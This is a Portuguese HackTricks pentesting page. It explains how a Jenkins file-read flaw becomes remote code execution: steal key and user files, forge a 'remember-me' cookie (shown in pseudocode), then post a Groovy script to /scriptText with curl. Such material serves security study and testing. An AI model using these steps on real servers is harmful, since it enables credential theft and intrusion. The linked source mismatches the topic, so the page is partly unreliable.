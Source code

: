 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Neste post do blog, é possível encontrar uma ótima maneira de transformar uma vulnerabilidade de Inclusão de Arquivo Local no Jenkins em RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este é um resumo criado por IA da parte do post onde o craft de um cookie arbitrário é abusado para obter RCE abusando de uma leitura de arquivo local até que eu tenha tempo para criar um resumo por conta própria:

### Pré-requisitos do Ataque

* **Requisito de Funcionalidade:** "Lembre-se de mim" deve estar habilitado (configuração padrão).
* **Níveis de Acesso:** O atacante precisa de permissões Gerais/Leitura.
* **Acesso Secreto:** Capacidade de ler tanto conteúdo binário quanto textual de arquivos-chave.

### Processo Detalhado de Exploração

#### Passo 1: Coleta de Dados

**Recuperação de Informações do Usuário**

* Acesse a configuração do usuário e segredos de `$JENKINS_HOME/users/*.xml` para cada usuário para coletar:
* **Nome de usuário**
* **Semente do usuário**
* **Timestamp**
* **Hash da senha**

**Extração da Chave Secreta**

* Extraia chaves criptográficas usadas para assinar o cookie:
* **Chave Secreta:** `$JENKINS_HOME/secret.key`
* **Chave Mestra:** `$JENKINS_HOME/secrets/master.key`
* **Arquivo de Chave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Passo 2: Forjamento de Cookie

**Preparação do Token**

*   **Calcular Tempo de Expiração do Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adiciona uma hora ao tempo atual
```
{% endcode %}
*   **Concatenar Dados para o Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Descriptografia da Chave MAC**

*   **Descriptografar o Arquivo de Chave MAC:**

```javascript
key = toAes128Key(masterKey)  // Converte a chave mestra para o formato de chave AES128
decrypted = AES.decrypt(macFile, key)  // Descriptografa o arquivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo da Assinatura**

*   **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcula HMAC usando o token e a chave MAC
tokenSignature = bytesToHexString(mac)  // Converte o MAC para uma string hexadecimal
```

**Codificação do Cookie**

*   **Gerar Cookie Final:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codifica os dados do cookie em Base64
```
{% endcode %}

#### Passo 3: Execução de Código

**Autenticação de Sessão**

* **Buscar Tokens CSRF e de Sessão:**
* Faça uma solicitação para `/crumbIssuer/api/json` para obter `Jenkins-Crumb`.
* Capture `JSESSIONID` da resposta, que será usado em conjunto com o cookie de lembrete.

**Solicitação de Execução de Comando**

*   **Enviar uma Solicitação POST com Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* O script Groovy pode ser usado para executar comandos em nível de sistema ou outras operações dentro do ambiente Jenkins.

O exemplo de comando curl fornecido demonstra como fazer uma solicitação ao Jenkins com os cabeçalhos e cookies necessários para executar código arbitrário de forma segura.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

